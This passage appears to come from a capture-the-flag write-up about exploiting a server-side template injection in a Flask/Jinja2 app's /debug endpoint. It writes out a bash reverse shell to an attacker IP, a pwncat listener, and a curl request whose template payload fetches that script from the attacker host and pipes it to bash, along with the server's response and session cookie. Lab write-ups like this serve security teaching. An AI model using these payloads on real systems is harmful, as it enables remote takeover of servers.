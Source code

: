 ![ssti proof](./pic/ssti.png)
    
Since we are sure that the application is vulnerable we can craft something a bit more usefull like a reverse shell.<br>
To start i launch a listener on my attacker machine (i'll use pwncat-cs):
```bash
echo 'bash -i >& /dev/tcp/10.8.79.118/6666 0>&1' > a
python3 -m http.server 80 &
pwncat-cs -lp 6666
```
Then we can send the payload to `/debug` path and take the cookie (i wrote in burp and copied as curl command):
```bash
curl -i -k -X $'GET' -H $'Host: 10.10.198.19:7777' -H $'Referer: http://10.10.198.19:7777/debug' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: close' $'http://10.10.198.19:7777/debug?debug=%7b%7b%20self._TemplateReference__context.cycler.__init__.__globals__.os.popen(%22curl%20http%3a%2f%2f10.8.79.118%2fa%20%7c%20bash%22).read()%20%7d%7d&password=A[REDACTED]g' -v
```
output:
```bash
HTTP/1.1 200 OK
< Server: Werkzeug/2.3.4 Python/3.11.0
Server: Werkzeug/2.3.4 Python/3.11.0
< Date: Wed, 06 Mar 2024 19:05:44 GMT
Date: Wed, 06 Mar 2024 19:05:44 GMT
< Content-Type: text/html; charset=utf-8
Content-Type: text/html; charset=utf-8
< Content-Length: 2024
Content-Length: 2024
< Vary: Cookie
Vary: Cookie
< Set-Cookie: session=..eJxdzksKwyAUheGtiFCSQLmJFNo0yygdCqLm5gFWRQ1NSbP3xmknP9-ZnY32qJaRdnTbSEQzgHjiyxuZ8IEDBrQahdDOJlwT6I82GECI2c5JiAOjcUqaeNhF8M6jLTnVSzBkSsl3dc0aaOF2B8baWpIvUTJOnFYQUPZlRfadnqmXMb5d6I8XqiCcr03zl9NRpjkPeV3yaLOuWVjQ_QcOH0Js.ZejNug.nG0knyDW8vqsCFm75v6CJCuPNGM; HttpOnly; Path=/
```
Now that we have the cookie we can send the render request to trigger the server template:
    